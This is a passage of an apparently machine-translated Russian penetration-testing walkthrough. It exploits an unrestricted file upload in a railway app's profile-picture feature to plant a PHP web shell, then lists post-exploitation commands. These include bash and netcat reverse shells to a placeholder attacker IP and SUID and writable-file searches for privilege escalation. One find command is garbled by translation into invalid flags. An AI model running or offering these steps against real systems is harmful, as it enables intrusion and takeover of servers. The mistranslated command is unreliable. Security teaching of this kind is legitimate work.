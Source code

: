 Страница профиля железной дороги

Вместо новой фотографии профиля мы можем загрузить наш вредоносный PHP- скрипт и обновить наш профиль:

Фотография профиля загружена

В случае этого приложения RCE возможен через неограниченную загрузку файла. После загрузки и обновления этой 
"картинки профиля" она сохраняется в /admin/assets/img/profile/каталоге. Затем к файлу можно получить прямой доступ 
через http://<ip-address-or-localhost>/<projectname>/admin/assets/img/profile/shell.php. При доступе к нему мы можем 
увидеть вредоносный код в действии:

Вредоносный код в действии

Теперь мы можем запускать команды непосредственно в операционной системе с помощью этой панели, и вывод будет 
отображаться. Например, запуск команды pwd сейчас возвращает следующее:

Команда выполняется


Извлечь максимальную пользу
После того, как уязвимость была использована и у вас теперь есть доступ к операционной системе через веб-оболочку, 
есть много следующих шагов, которые вы можете предпринять в зависимости от a) какова ваша цель и b) какие 
неправильные конфигурации присутствуют в системе, которые определят, что именно мы можем сделать. Вот несколько 
примеров команд, которые вы можете запустить, получив доступ, и почему вы можете их запустить (если система работает 
на ОС Linux, как наша целевая система в качестве примера):


Команда	Использовать
- ls	Даст вам представление о том, какие файлы/каталоги вас окружают
- cat	Команда, используемая для вывода содержимого документов, таких как текстовые файлы.
- pwd	Даст вам представление о том, где в системе вы находитесь
- whoami	Даст вам знать, кто вы в системе
- name host	Имя системы и ее потенциальная роль в сети
- uname -a	Предоставлю вам некоторую системную информацию, такую как ОС , версия ядра и многое другое.
- id	Если текущий пользователь назначен в какие-либо группы
- ifconfig	Позволяет понять сетевые настройки системы
- bash -i >& /dev/tcp/<your-ip>/<port> 0>&1	Команда, используемая для запуска обратной оболочки через bash.
- nc -e /bin/sh <ваш-ip> <порт>	Команда, используемая для запуска обратного шелла через Netcat
- find / -perm -4000 -type f 2>/dev/null	Находит файлы SUID (Set User ID), что полезно при попытках повышения 
   привилегий, поскольку иногда его можно использовать для выполнения двоичного файла с привилегиями его владельца (который часто является пользователем root)
- find / -записываемый -тип f 2>/dev/null | grep -v "/proc/"	Также полезно при попытках повышения привилегий, 
  используемых для поиска файлов с разрешениями на запись.
Это лишь некоторые команды, которые можно запустить после успешного RCE-эксплойта. Он очень открытый, и то, что вы 
  можете сделать, будет зависеть от ваших способностей инспектировать среду и уязвимости в самой системе.
